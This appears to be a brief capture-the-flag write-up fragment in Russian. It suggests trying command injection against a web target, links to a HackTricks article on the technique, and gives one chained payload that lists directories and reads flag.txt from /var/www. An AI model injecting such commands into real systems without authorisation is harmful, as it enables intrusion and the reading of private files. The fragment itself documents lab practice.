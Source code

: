 
![[Pasted image 20241216171142.png]]

![[Pasted image 20241216171208.png]]


можно попробовать Command inject (CI) ([Внедрение команд | ХакХитрости](https://book.hacktricks.xyz/pentesting-web/command-injection)) 

![](attachment/20241216171358.png)
ls || id; cd /var/www || id; ls || id; cat flag.txt || id; ls || id; pwd || id